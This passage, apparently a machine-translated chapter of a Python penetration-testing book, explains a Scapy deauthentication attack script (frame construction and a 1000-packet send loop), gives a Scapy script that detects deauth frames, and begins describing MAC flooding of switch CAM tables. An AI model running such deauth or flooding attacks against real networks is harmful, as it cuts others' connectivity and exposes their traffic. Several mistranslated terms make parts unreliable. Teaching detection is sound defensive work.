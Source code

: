 这段代码很容易理解。`frame= RadioTap()/ Dot11(addr1=victim_mac,addr2=BSSID, addr3=BSSID)/ Dot11Deauth()`语句创建 deauth 数据包。从本章的第一个图表中，您可以检查这些地址。在最后一行`sendp(frame,iface=interface, count= 1000, inter= .1)`中，`count`给出发送的数据包总数，`inter`表示两个数据包之间的间隔。

`deauth.py`程序的输出如下：

```
root@Mohit|Raj:/wireless# python deauth.py 
WARNING: No route found for IPv6 destination :: (no default route?)
Enter the MAC of AP 0c:d2:b5:01:0f:e6
Enter the MAC of Victim 88:53:2E:0A:75:3F

```

此攻击的目的不仅是执行 deauth 攻击，还包括检查受害者的安全系统。IDS 应具有检测 deauth 攻击的能力。到目前为止，没有办法避免攻击，但可以检测到。

您可以为客户端提供此攻击的解决方案。一个简单的 Python 脚本可以检测到 deauth 攻击。以下是检测代码：

```
from scapy.all import *
interface = 'mon0'
i=1
def info(fm):
  if fm.haslayer(Dot11):
    if ((fm.type == 0) & (fm.subtype==12)):
      global i
      print "Deauth detected ", i
      i=i+1

sniff(iface=interface,prn=info)
```

前面的代码很容易理解。让我们看看这里的新事物。`fm.subtype==12`语句指示 deauth 帧，全局声明的`i`变量通知我们数据包计数。

为了检查攻击，我进行了德乌斯攻击。

`mac_d.py`脚本的输出如下：

```
root@Mohit|Raj:/wireless# python mac_d.py 
WARNING: No route found for IPv6 destination :: (no default route?)
Deauth detected  1
Deauth detected  2
Deauth detected  3
Deauth detected  4
Deauth detected  5
Deauth detected  6
Deauth detected  7
Deauth detected  8

```

通过分析数据包计数，您可以检测它是否属于 DoS 攻击或正常行为。

## MAC 泛洪攻击

MAC 泛洪需要大量请求泛洪交换机。**内容寻址存储器**（**CAM**将开关与集线器分离。它用物理端口号存储连接设备的 MAC 地址等信息。CAM 表中的每个 MAC 都分配了一个交换机端口号。有了这些信息，交换机知道在哪里发送以太网帧。凸轮工作台的尺寸是固定的。您可能想知道当 CAM 表收到大量请求时会发生什么。在这种情况下，交换机会变成一个集线器，所有端口上的传入帧都会被淹没，从而使攻击者能够访问网络通信。

